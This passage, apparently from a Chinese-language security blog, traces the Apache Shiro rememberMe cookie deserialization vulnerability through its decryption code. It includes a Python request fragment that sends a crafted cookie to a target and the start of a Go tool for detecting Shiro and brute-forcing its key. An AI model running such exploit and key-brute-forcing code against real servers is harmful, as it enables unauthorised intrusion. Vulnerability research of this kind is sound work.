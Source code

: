 ```python
    r = requests.get(target, cookies={'rememberMe':base64_ciphertext.decode()}, timeout=10)
except:
    traceback.print_exc()
```

##### ![image-20220122175423163](/images/shiro-attack/image-20220122175423163.png)

跟进函数, 发现`getRememberMeManager`会返回cookie的信息, 加密服务和加密解密用的密钥. 

![image-20220122175833707](/images/shiro-attack/image-20220122175833707.png)

接下来, 跟进`getRememberedPrincipals`函数, 首先会尝试获取rememberMe中的序列化对象, 然后

![image-20220122180215754](/images/shiro-attack/image-20220122180215754.png)

看看`getRememberedSerializedIdentity`的内容, 主要环节就是获取cookie并进行bas64解密, 并将解密结果返回回去.

![image-20220122191255902](/images/shiro-attack/image-20220122191255902.png)

接下来进入 `convertBytesToPrincipals`函数, 可以看到这里进行了解密操作, 并且进行了反序列化操作. 解密操作和之前的加密操作类似, 

![image-20220122192211652](/images/shiro-attack/image-20220122192211652.png)

![image-20220122193026077](/images/shiro-attack/image-20220122193026077.png)

至此 , 反序列化漏洞触发. 总体来说这个漏洞跟起来并不复杂. 

## 密钥爆破

这里参考https://mp.weixin.qq.com/s/do88_4Td1CSeKLmFqhGCuQ的方法编写自己的shiro检测脚本, 脚本中的密钥字典来源于https://github.com/pmiaowu/BurpShiroPassiveScan的代码

```golang
package main

import (
	"bytes"
	"crypto/aes"
	"crypto/cipher"
	"encoding/base64"
	"log"
	"net/http"
	"os"
	"strings"
	"time"
)

func main() {
	args := os.Args[1:]
	if len(args) < 1 {
		log.Println("usage: ./shiro-brute-key {url}")
		log.Println("\033[31mNo args specific, exit\033[0m")
		return
	}
	var url string = args[0]

	// start to detect shiro
	if detectShiro(url) != true {
		log.Println("\033[31mSeems no shiro, exit\033[0m")
		return
	}
	log.Println("\033[32mShiro detected!\033[0m")
	log.Println("\033[34mStart bruting key......\033[0m")

```